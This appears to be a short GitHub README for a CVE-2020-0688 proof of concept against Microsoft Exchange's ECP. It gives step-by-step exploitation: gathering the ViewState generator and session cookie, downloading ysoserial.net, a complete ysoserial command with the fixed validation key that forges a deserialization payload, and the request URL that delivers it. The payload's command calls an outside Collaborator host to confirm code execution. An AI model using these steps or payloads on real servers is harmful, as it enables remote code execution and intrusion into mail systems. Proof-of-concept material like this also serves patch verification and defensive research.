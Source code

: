 # cve-2020-0688
cve-2020-0688

Login with a user with an email address privliage is nothing to worry about.

Grab -  `__VIEWSTATEGENERATOR` from page source
Grab - the value of `ASP.NET_SessionId` cookie for viewstateuserkey value

[Download YSO Here](https://github.com/pwntester/ysoserial.net/releases/download/v1.32/ysoserial-1.32.zip)


```
ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "nslookup teasdas.myburpcollab.net" --validationalg="SHA1" --validationkey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" --generator="B97B4E27" --viewstateuserkey="05ae4b41-51e1-4c3a-9241-6b87b169d663" --isdebug –islegacy
```

GET TO:

```
https://localhost/ecp/default.aspx?__VIEWSTATEGENERATOR=<generator>&__VIEWSTATE=<ViewState>
```

The Exploit.py is untested and need a demo system to fire up and play with.
